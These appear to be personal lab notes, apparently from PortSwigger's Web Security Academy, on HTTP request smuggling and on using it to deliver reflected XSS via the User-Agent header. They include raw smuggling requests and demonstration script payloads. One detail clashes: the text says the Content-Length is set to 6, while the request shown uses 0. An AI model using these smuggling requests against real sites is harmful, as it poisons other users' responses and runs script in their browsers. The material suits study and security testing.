 Try sending the attack request and normal request until a 200 OK response is returned:

![[200 OK Response.png]]

If so, check the blog post for a header.

>[!info]
>If the length is cut off, try modifying the Content Length value of the attack request for the POST comment request to receive more.
# Request Smuggling to Exploit Reflected XSS

If an app is vulnerable to request smuggling and contains reflected XSS, it can be used to hit other users of the app.

1. It requires no interaction with victim users. You don't need to feed them a URL and wait for them to visit. You just smuggle a request containing the XSS payload and the next user's request that is processed by the back-end server will be hit.
2. It can be used to exploit XSS behaviour in parts of the request that cannot be trivially controlled in a normal reflected XSS attack, such as HTTP request headers.

Suppose an app has a reflected XSS in the `User-Agent` header, it can be exploited in a request smuggling attack such as:

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 63
Transfer-Encoding: chunked

0

GET / HTTP/1.1
User-Agent: <script>alert(1)</script>
Foo: X
```

The next user request will be appended to the smuggled request, and they will receive the reflected payload in the response.
# Exploiting Request Smuggling to Deliver Reflected XSS

For example, there may be an XSS vulnerability in the User Agent header as it is reflected in the response in an input field. If so, try a simple XSS payload such as the following:

```javascript
foo"><script>print()</script>
```

If successful, try combining it with request smuggling. To start, try detecting a smuggling vulnerability via a timing technique by creating a smuggling request by adding a TE chunked header along with a newline and then a chunk of size 3, and an invalid chunk size of `X` followed by a new line.

Additionally, the CL is changed to 6:

```http
POST / HTTP/1.1
Host: 0a54003203f7944680bafe9700db0075.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Transfer-Encoding: chunked

3
abc
X
```
